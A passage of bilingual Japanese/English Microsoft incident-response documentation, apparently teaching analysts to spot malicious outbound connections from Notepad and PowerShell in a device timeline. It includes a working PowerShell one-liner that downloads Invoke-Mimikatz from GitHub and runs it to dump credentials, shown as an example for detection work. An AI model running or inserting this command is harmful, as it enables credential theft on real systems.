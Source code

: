 :::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-notepad.png" alt-text="悪意のある送信メモ帳接続を確立する方法の例"::: 

<span data-ttu-id="1fe2f-141">この特定のイベントでは、悪意メモ帳送信接続を確立するために使用されたイベントです。</span><span class="sxs-lookup"><span data-stu-id="1fe2f-141">In this particular event, Notepad was used to make a malicious outbound connection.</span></span> <span data-ttu-id="1fe2f-142">ただし、通常、攻撃者は iexplorer.exe を使用して悪意のあるペイロードをダウンロードする接続を確立します。通常、iexplorer.exeプロセスは通常の Web ブラウザーアクティビティと見なされます。</span><span class="sxs-lookup"><span data-stu-id="1fe2f-142">However, often attackers will simply use iexplorer.exe to establish connections to download a malicious payload because ordinarily iexplorer.exe processes are considered regular web browser activity.</span></span>

<span data-ttu-id="1fe2f-143">タイムラインで探すもう 1 つの項目は、PowerShell が送信接続に使用する場合です。</span><span class="sxs-lookup"><span data-stu-id="1fe2f-143">Another item to look for in the timeline would be PowerShell uses for outbound connections.</span></span> <span data-ttu-id="1fe2f-144">アナリストは、悪意のあるファイルをホストする Web サイトへの送信接続などのコマンドを使用して、PowerShell 接続の成功 `IEX (New-Object Net.Webclient)` を探します。</span><span class="sxs-lookup"><span data-stu-id="1fe2f-144">The analyst would look for successful PowerShell connections with commands such as `IEX (New-Object Net.Webclient)` followed by an outbound connection to a website hosting a malicious file.</span></span> 

<span data-ttu-id="1fe2f-145">次の例では、PowerShell を使用して Web サイトから Mimikatz をダウンロードして実行しました。</span><span class="sxs-lookup"><span data-stu-id="1fe2f-145">In the following example, PowerShell was used to download and execute Mimikatz from a website:</span></span>

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```
<span data-ttu-id="1fe2f-146">アナリストは、検索バーにキーワードを入力して、PowerShell で作成されたイベントのみを表示することで、キーワードをすばやく検索できます。</span><span class="sxs-lookup"><span data-stu-id="1fe2f-146">An analyst can quickly search for keywords by typing in the keyword in the search bar to display only events created with PowerShell.</span></span> 

## <a name="next-step"></a><span data-ttu-id="1fe2f-147">次の手順</span><span class="sxs-lookup"><span data-stu-id="1fe2f-147">Next step</span></span>

<span data-ttu-id="1fe2f-148">フィッシング調査 [パスを](first-incident-path-phishing.md) 参照してください。</span><span class="sxs-lookup"><span data-stu-id="1fe2f-148">See the [phishing](first-incident-path-phishing.md) investigation path.</span></span>

## <a name="see-also"></a><span data-ttu-id="1fe2f-149">関連項目</span><span class="sxs-lookup"><span data-stu-id="1fe2f-149">See also</span></span>

- [<span data-ttu-id="1fe2f-150">インシデントの概要</span><span class="sxs-lookup"><span data-stu-id="1fe2f-150">Incidents overview</span></span>](incidents-overview.md)
- [<span data-ttu-id="1fe2f-151">インシデントの管理</span><span class="sxs-lookup"><span data-stu-id="1fe2f-151">Manage incidents</span></span>](manage-incidents.md)
- [<span data-ttu-id="1fe2f-152">インシデントの調査</span><span class="sxs-lookup"><span data-stu-id="1fe2f-152">Investigate incidents</span></span>](investigate-incidents.md)
